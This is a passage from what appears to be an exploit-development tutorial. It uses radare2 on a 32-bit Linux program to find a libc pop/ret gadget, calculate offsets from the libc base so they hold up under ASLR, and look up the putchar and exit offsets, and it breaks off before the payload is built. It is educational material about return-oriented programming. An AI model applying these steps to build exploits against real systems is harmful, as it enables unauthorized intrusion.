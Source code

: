 ```shell
First one to appear from the bottom:

0xf7febdff                 5b  pop ebx
0xf7febe00                 c3  ret


```

The address we are looking for, is 0xf7febdff. This is real address: generally it could be better to get offset from the start of library. If we look at the address, this is probably in libc. We could find suitable offset by just analyzing library alone, instead of analyzing it as dynamically linked to our program.

When system has ASLR enabled, we might need to create addresses dynamically, and therefore offsets are better choice, in case we know the version of libc in targeted system.

In this case, we can calculate the offset by ourself. First we need to find the start of libc in memory:

```shell
[0x56555586]> dm

0xf7dd7000 # 0xf7fac000 - usr   1.8M s r-x /lib/i386-linux-gnu/libc-2.27.so /lib/i386-linux-gnu/libc-2.27.so
0xf7fac000 # 0xf7fad000 - usr     4K s --- /lib/i386-linux-gnu/libc-2.27.so /lib/i386-linux-gnu/libc-2.27.so
0xf7fad000 # 0xf7faf000 - usr     8K s r-- /lib/i386-linux-gnu/libc-2.27.so /lib/i386-linux-gnu/libc-2.27.so
0xf7faf000 # 0xf7fb0000 - usr     4K s rw- /lib/i386-linux-gnu/libc-2.27.so 
```

This is the section, which shows libc parts in memory. We are interested about first address, which is the start. Let's calculate offset:

```shell
[0x56555586]> ?X 0xf7febdff -  0xf7dd7000
214dff
[0x56555586]> 
```
Offset address would be 0x00214dff for our pop/ret gadget.

When we need the gadget address, we should just add offset to libc base address.

Next we need offset address of putchar and exit functions.

Putchar : 

```shell
[0x56555586]> dmi libc putchar
053 0x00069a30 0xf7e40a30 GLOBAL   FUNC   75 putchar_unlocked
527 0x00069920 0xf7e40920 GLOBAL   FUNC  269 putchar

[0x56555586]> 
```
Exit can be found same way. This time it is showing offset of function.

Now we have figured out all the addresses. Next we just need to create the payload.
